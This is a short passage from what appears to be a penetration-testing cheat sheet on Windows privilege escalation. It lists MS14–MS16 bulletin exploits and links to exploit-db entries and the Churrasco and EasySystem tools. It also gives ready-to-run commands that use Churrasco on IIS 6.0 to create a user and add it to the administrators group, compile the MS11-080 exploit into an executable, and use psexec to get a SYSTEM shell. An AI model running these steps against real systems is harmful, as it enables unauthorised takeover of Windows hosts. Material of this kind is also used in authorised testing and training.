 ```text
38: ms14-058 (2)
39: *ms14-070 (1)
40: ms14-070 (2)
41: *ms15-010 (1)
42: *ms15-010 (2)
43: ms15-051
44: *ms16-014
45: ms16-016
46: ms16-032
```

Check out:

```text
http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation
```

#### Windows Server 2003 and IIS 6.0 privilege escalation using impersonation:

```text
https://www.exploit-db.com/exploits/6705/
```

```text
https://github.com/Re4son/Churrasco
```

```text
c:\Inetpub>churrasco
 churrasco
 /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

 c:\Inetpub>churrasco -d "net user /add <username> <password>"
 c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
```

### Windows MS11-080

http://www.exploit-db.com/exploits/18176/

```text
python pyinstaller.py --onefile ms11-080.py
```

```text
mx11-080.exe -O XP
```

From admin to system

```text
psexec.exe -i -s %SystemRoot%\system32\cmd.exe
```

```text
https://github.com/Cn33liz/EasySystem 
```
